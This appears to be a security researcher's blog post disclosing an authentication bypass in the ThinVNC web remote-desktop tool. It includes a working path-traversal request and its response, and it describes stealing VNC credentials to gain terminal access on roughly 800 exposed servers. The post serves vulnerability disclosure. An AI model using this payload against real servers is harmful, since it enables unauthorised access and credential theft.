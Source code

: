 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-15 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability.

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from https://sourceforge.net/projects/thinvnc/ and the source code for this is available at https://github.com/bewest/thinvnc. According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
[photo of auth-1]

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector: <br>
<b>**/../../../../../../../../../windows/win.ini** </b>

<h4>Sample Request:</h4>

```
GET /xyz/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
<h4>Sample Response: </h4>

```
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

[insert BURP Screenshot here]
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>
My friend [@WarMarx](https://twitter.com/\_WarMarX\_) on Twitter and I have written a tiny POC for this issue which can be found here: [Github POC Link](https://github.com/shashankmangal2/Exploits/tree/master/ThinVNC-RemoteAccess)

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. You can use the following queries on Shondan and Zoomeye to identiify the vulnearble servers. 
[zoomeye ss]
[shodan ss]

SourceForge Page suggests that there are 219 downloads / week on an average of this VNC software. 

<h2> Conclusion: </h2>
Do not use legacy software, even though there are no POC's or CVE's available on those software, they might be vulnerable to some issue. Always keep yourself and your software updated. Cheers :)


